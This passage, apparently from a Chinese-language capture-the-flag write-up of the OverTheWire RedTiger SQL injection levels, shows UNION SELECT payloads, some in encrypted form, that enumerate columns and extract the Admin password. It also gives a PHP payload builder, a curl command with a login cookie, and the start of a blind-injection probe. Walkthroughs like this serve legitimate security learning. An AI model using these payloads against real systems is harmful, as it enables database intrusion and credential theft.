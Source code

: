 
```
# max' union select 1,2,3,4,5,6,(column_name) from information_schema.columns where table_name='level3_users' limit 0,1#
MDA2MjE0MDI3MjQ4MTk0MjUyMTQ1MDgxMjA1MTExMjUzMTQzMDc2MTYzMDI2MDA2MTcxMDY1MTcyMDcwMDYzMTk5MjM2MjE5MDgwMjQ2MTU1MjA4MTc5MDk2MTU3MTQ3MTA3MTE2MTY1MTM5MjA0MTQ0MTEyMDM3MTg5MTUzMTA0MjE4MTcwMTc4MDE1MTk4MDAyMTUxMTIwMDg2MTMzMTMyMDY5MDQ3MTY0MTkwMDM3MDU2MTI0MTQwMDM2MDc5MTI1MTIyMTExMTQ5MTMyMDY2MTQ3MjA1MDcxMDQ3MTkzMjE0MTE3MTIzMTk5MDg3MTE5MTUzMDMzMTU3MjA1MDE3MDQ3MjIzMDU4MjQ0MTg3MDI5MTY4MDU4MjA0MjAzMDY2MjAyMDA1MDQ3MTMxMDI4MTY3MDk4MjE2MjQ0MjE3MTQwMjQ2MjAxMTg4MTk3MDQ2MDA3MTUzMDM3MTQ4MjA4
```
尝试暴列名出错。

	Show userdetails: <br>Some things are disabled!!!
还好知道字段，`password`，直接泄露即可。

```
# max' union select 1,2,3,4,5,6,password from level3_users where username='Admin'#
MDA2MjE0MDI3MjQ4MTk0MjUyMTQ1MDgxMjA1MTExMjUzMTQzMDc2MTYzMDI2MDA2MTcxMDY1MTcyMDcwMDYzMTk5MjM2MjE5MDgwMjQ2MTU1MjA4MTc5MDk2MTk3MTQ1MTE5MTA3MTY3MTM3MjA4MTcxMDYyMDM0MTYyMTQ3MDQ0MjE4MTYwMTY1MDIyMjA2MDc4MjA1MDczMDY5MTUzMTQ3MDkwMDYxMjQwMTYwMDM0MDUxMDgxMTU0MTAzMDgyMTA3MTE0MTI0MjEzMTM0MDY0MTU0MTMzMDEzMDAwMjE0MTU1MTA3MTI1MTMzMDA2
```
```
admin
thisisaverysecurepasswordEEE5rt
```
代码可以写作：
```
$payload2 ="max' union select 1,2,3,4,5,6,password from level3_users where username='Admin'#";
print_r($payload2);
print '<br>';
$en_payload = encrypt($payload2);
print_r($en_payload);
print '<br>';

```

## level4

网站
```
curl "http://redtiger.labs.overthewire.org/level4.php" -H "Cookie: level4login=there_is_no_bug"
```

	Welcome to Level 4

	Target: Get the value of the first entry in table level4_secret in column keyword
	Disabled: like

从`table_leel4`表中的`keyword`列得到第一个值。
这道题的提示是盲注。
点击`Click me`，得到带有`?id=1`的新链接`https://redtiger.labs.overthewire.org/level4.php?id=1`。

正常页面显示`Query returned 1 rows. `。
注入`'`，新页面显示`Query returned 0 rows. `。说明这是错误结果。
